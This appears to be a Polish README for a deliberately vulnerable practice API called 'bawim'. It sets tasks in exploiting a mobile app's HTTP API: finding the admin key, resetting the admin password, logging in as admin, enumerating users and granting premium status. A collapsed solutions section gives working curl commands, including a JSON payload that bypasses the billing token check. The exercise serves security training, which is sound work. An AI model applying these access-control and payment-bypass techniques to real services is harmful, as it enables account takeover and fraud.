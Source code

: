 # bawim
## Analiza oraz wykorzystanie podatności w zapytaniach HTTP pomiędzy aplikacją mobilną i API
Instalacja nie jest wymagana, API znajduje się pod adresem https://bawim.tk.  
Do wysyłania zapytań najlepiej użyć narzędzia curl lub serwisu https://postman.co.

## Zadania
[przykładowe] 0. Znajdź wersję aplikacji.  
curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/get_app_version

1. Znajdź ID konta 'admin', a następnie klucz przypisany do konta.
2. Przy użyciu znalezionego klucza wypisz szczegółowe informacje o koncie 'admin'.
3. Zresetuj hasło admina, znając kod funkcji weryfikującej token.  
![alt text](https://github.com/matih123/bawim/blob/master/verify.png)  
4. Zaloguj się na konto admina (podaj id sesji).  
5. Znajdź użytkownika, który ma na koncie $1.000.000.  
podpowiedź: napisz prosty skrypt np. w pythonie (moduł requests).  
![alt text](https://github.com/matih123/bawim/blob/master/requests.png)  
6. Ustaw typ konta na premium dowolnemu użytkownikowi.  
podpowiedź: https://youtu.be/MpeaSNERwQA.

## Lista endpointów API

Wszystkie endpointy działają w oparciu o metodę POST oraz wymagają uwierzytelnienia kluczem globalnym (-d key=Re2LPGUMEKa34ik1uhHOBMoc). 

* https://bawim.tk/get_app_version  
parametry: key   
* https://bawim.tk/user/{user_id}  
parametry: key  
* https://bawim.tk/user_data/{user_id}  
parametry: key, user_key  
* https://bawim.tk/login/{username}  
parametry: key, password  
* https://bawim.tk/reset_password/{user_id}  
parametry: key  
* https://bawim.tk/set_password/{user_id}/{token}  
parametry: key, new_password  
* https://bawim.tk/set_premium_account/{user_id}  
parametry: key, billing_token, json - ten endpoint obsługuje dane wejściowe w formacie json (-d json={json_string})  

## Rozwiązania
<details>
  <summary>Pokaż</summary>
  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/login/admin  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/user/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d user_key=AnbgzkuaayRdT4HIab8lV513 https://bawim.tk/user_data/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc https://bawim.tk/reset_password/386  
  curl -i -X POST -d key=Re2LPGUMEKa34ik1uhHOBMoc -d json={\"billing_token\":[]} http://bawim.tk/set_premium_account/200  
  
</details>
